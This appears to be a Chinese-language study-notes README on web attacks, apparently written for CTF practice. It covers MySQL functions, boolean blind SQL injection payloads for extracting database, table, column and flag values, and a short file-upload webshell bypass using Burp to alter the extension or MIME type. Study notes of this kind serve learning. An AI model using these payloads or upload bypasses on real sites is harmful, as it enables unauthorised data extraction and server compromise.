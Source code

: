 知识点
==

sql注入
-

**sql注入漏洞攻击流程：注入点探测—信息获取—获取权限**
<br>
一些常用函数：

    a) Version()；当前 mysql 的版本
    b) Database();当前网站使用的数据库
    c) User();当前 MySQL 的用户
    d) system_user(); 系统用户名
    e）session_user();连接数据库的用户名
    f)current_user;当前用户名
    g)load_file();读取本地文件
    h)length(str) : 返回给定字符串的长度，如 length(“string”)=6
    i)substr(string,start,length) : 对于给定字符串string，从start位开始截取，截取length长度 ,如 substr(“chinese”,3,2)=“in”
    substr()、stbstring()、mid() 三个函数的用法、功能均一致
    j)concat(username)：将查询到的username连在一起，默认用逗号分隔
    concat(str1,’’,str2)：将字符串str1和str2的数据查询到一起，中间用连接
    group_concat(username) ：将username数据查询在一起，用逗号连接

![image](https://github.com/xhsy0314/Task/assets/84487619/f1c76425-d7d9-4e26-9273-f96051bfc1c1)


**布尔盲注**

主要用于：页面没有显示，没有报错信息，只有成功和不成功两种情况。<br>
常用的辅助函数：


        length()  返回字符串的长度
        substr()  截取字符串  substr(字符串，截取的开始，截取的长度)
        ascii()  返回字符的ascii码
        sleep()  延时 
        if(expr1,expr2,expr3)  判断语句：如果第一个语句正确就执行第二个语句，否则执行第三个

        
具体步骤：

-输入and 1=1 、and 1=2 若只会告诉是否有数据，但不会显示数据内容，则判断是布尔盲注。<br>

-猜解当前数据库名称的长度：and (length(database()))>9#<br>


-利用ASCII码猜解当前数据库名称
        and substr(database(),1,1)='s'或者<br>
        and ascii(substr(database(),1,1))=115--+返回正常，说明数据库名称第一位是s<br>
        and (ascii(substr(databse(),2,1)))=101--+返回正常，说明数据库名称第二位是e<br>

-猜表名: and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101--+<br>
返回正常，说明数据库的第一个的第一位是e

-猜字段: and (ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='yay' limit 0,1),1,1)))=101--+<br>
返回正常，说明yay表里的列名称第一位是f.

-猜内容: and (ascii(substr((select flag from yay limit 1,1),1,1)))=122--+

```
substr((select group_concat(sql) from sqlite_master)
```

文件上传漏洞
-
一句话木马：Cknife <br>
上传木马文件**→**用burp拦截后，修改文件后缀或者修改content-type（MIME）的值**→**放行<br>

<br>

**常见的MIME类型：**

    超文本标记语言文本 .html text/html
    普通文本 .txt text/plain
    RTF文本 .rtf application/rtf
    PDF文档.pdf application/pdf
    Microsoft Word文件 .word application/msword
    PNG图像 .png image/png
    GIF图形 .gif image/gif
    JPEG图形 .jpeg,.jpg image/jpeg
    au声音文件 .au audio/basic
    MIDI音乐文件.mid,.midi audio/midi,audio/x-midi
    RealAudio音乐文件.ra,.ram audio/x-pn-realaudio
    MPEG文件 .mpg,.mpeg video/mpeg
    AVI文件 .avi video/x-msvideo
    GZIP文件 .gz application/x-gzip

    
有待补充...
